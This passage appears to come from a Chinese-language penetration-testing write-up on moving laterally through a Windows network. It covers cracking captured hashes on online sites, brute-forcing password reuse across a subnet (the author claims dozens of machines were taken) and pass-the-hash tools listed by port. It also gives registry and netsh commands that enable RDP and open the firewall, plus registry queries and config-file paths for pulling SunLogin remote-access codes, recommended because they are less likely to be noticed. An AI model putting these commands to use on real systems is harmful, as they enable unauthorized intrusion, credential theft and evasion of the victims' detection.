 ![image_x0lqYBmjQ2.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-52428000d605312d941bbb4080271ff415372dc1.png)

### 密码复用

08机器之前可以抓到明文，抓不到明文可以尝试到cmd5上进行破解，破解率较高

<https://www.cmd5.com>  
<https://www.somd5.com>

获取密码之后可以通过超级弱口令工具进行密码复用爆破，拿着获取的密码重新组合字典，对网段内的机器进行爆破，这次也是成功拿下了几十台机器

![image_B-HbFja15K.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-1c32709c8a92796d5298c73cc37611a24b3b235d.png)

若hash解不出来，这时候我们可以根据开放的端口进行PTH，下面列举一些

```php
wmiexec  135端口  
psexec   445端口  
evil-winrm   5985端口
```

### 向日葵读取密码

拿到机器的账号密码之后，若机器开启了3389端口可以选择rdp远程桌面过去，没开的话可以开启3389端口进行远程连接

```php
#执行以下命令操作注册表来开启机器3389远程桌面服务  
REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /v fDenyTSConnections /t REG\_DWORD /d 00000000 /f  

#使用以下命令添加防火墙放行策略  
netsh firewall add portopening protocol = TCP port = 3389 name = rdp  
```

但如果是正常办公时间，贸然登录过去会很容易引起对方的发现，若进程中有sunlogin进程，可以读取识别码和验证码，通过向日葵连接相对比较隐蔽

![duk5gbct0f_meMyYaCbN7.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-392ecd41c440d68db85dc14ff32ba985e86040b5.png)

注册表读取配置信息：

```php
reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginInfo  
reg query HKEY\_USERS\\.DEFAULT\\Software\\Oray\\SunLogin\\SunloginClient\\SunloginGreenInfo  

向日葵默认配置文件路径:  
安装版：C:\\Program Files\\Oray\\SunLogin\\SunloginClient\\config.ini  
便携版：C:\\ProgramData\\Oray\\SunloginClient\\config.ini  
本机验证码参数：encry\_pwd  
本机识别码参数：fastcode(去掉开头字母)  
sunlogincode：判断用户是否登录状态
```

读注册表：

![glkpzmabud_771pPqH2eN.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-ea4f8202631637ebb69eb85a4c1d3977330610e6.png)
